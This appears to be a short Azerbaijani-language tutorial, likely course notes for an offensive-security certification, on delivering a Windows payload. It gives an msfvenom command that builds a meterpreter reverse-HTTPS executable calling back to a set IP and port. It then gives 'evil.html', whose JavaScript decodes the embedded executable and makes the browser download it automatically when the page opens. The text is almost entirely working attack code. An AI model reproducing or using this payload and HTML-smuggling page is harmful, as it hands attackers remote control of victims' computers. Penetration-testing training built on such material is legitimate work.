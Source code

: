 ## İlk öncə payloadı yaradırıq

```
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.128.71 LPORT=4444 -f exe -o /var/www/html/osep.exe
```

# Yaratdıqdan sonra isə hədəfdə url açılan kimi yüklənməsi üçün javascript-dən istifadə edib kod yazırıq.

```
evil.html

<html>
    <body>
        <script>
            function base64ToArrayBuffer(base64) { 
            var binary_string = window.atob(base64); 
            var len = binary_string.length;
            var bytes = new Uint8Array( len );
            for (var i = 0; i < len; i++) { bytes[i] = binary_string.charCodeAt(i); } 
            return bytes.buffer;
            }
		var file='Burda faylin base64 deyerini yaziriq ex:base64 osep.exe'
		var data =base64ToArrayBuffer(file);
            	var blob = new Blob( [data], {type: 'octet/stream'});
            	var fileName = 'osep.exe'

		var a = document.createElement('a');
		document.body.appendChild(a); 
		a. style='display: none';
		var url = window.URL.createObjectURL(blob);
		a.href = url;
		a.download = fileName;
		a.click();
		window.URL.revoke0bjectURL(url);
        </script>
    </body>
</html>

```

# Belelikle biz evil.html faylini browserde acsaq, osep.exe avtomatik endirilecek
